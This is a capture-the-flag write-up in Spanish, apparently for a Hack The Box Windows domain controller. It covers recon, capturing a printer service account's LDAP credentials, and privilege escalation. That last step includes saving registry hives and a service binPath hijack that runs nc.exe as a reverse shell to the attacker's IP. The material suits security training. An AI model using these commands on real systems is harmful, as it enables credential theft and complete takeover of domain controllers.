```zsh
ping -c 3 10.10.11.108 

PING 10.10.11.108 (10.10.11.108) 56(84) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=55.7 ms
64 bytes from 10.10.11.108: icmp_seq=2 ttl=127 time=57.3 ms
64 bytes from 10.10.11.108: icmp_seq=3 ttl=127 time=56.7 ms
```

## Recon

```zsh
sudo nmap -p- --open --min-rate 5000 -v -n -Pn 10.10.11.108 -oG allPorts

nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,52656 10.10.11.108 -oN targeted
```

```zsh
# Nmap 7.95 scan initiated Mon Aug 11 05:47:54 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,52656 -oN targeted 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.057s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-11 02:17:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
52656/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-11T02:18:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -7h30m29s
```


Web 



En el apartado de settings se puede ver un usario



`svc-printer`



```zsh
rlwrap nc -lvnp 389
```



```
svc-printer
1edFg43012!!
```

```zsh
nxc smb 10.10.11.108                                                               
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False) 
```


```zsh
nxc smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```



```zsh
nxc smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'  --shares
```

```d
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False) 
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [*] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

```zsh
smbmap -H 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' -r 'ADMIN$' --depth 10
```

```zsh
ldapdomaindump -u 'return.local\svc-printer' -p '1edFg43012!!' -n 10.10.11.108 return.local
```



```zsh
nxc winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```


## PrivEsc

```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                
```

### SeBackupPrivilege

https://juggernaut--sec-com.translate.goog/sebackupprivilege/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

```powershell
reg save hklm\system C:\temp\SYSTEM
reg save hklm\sam C:\temp\sam
```



Desafortunadamente no es valida el hash



Tampoco dumpeando el ntds.dit



```powershell
net user svc-printer

User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Server Operators

Sus miembros pueden iniciar sesión en un servidor, iniciar y detener servicios, acceder a controladores de dominio, realizar tareas de mantenimiento (como copias de seguridad y restauraciones) y tienen la capacidad de cambiar binarios instalados en los controladores de dominio.

https://www.thehacker.recipes/ad/movement/builtins/security-groups

```
services
```



- Upload nc.exe

```
upload ../nc.exe
```

```powershell
sc.exe config VMTools binPATH="C:\temp\nc.exe -e cmd.exe 10.10.14.5 1234"
```

```powershell
sc.exe stop VMTools
sc.exe start VMTools
```



#### NT Authority System



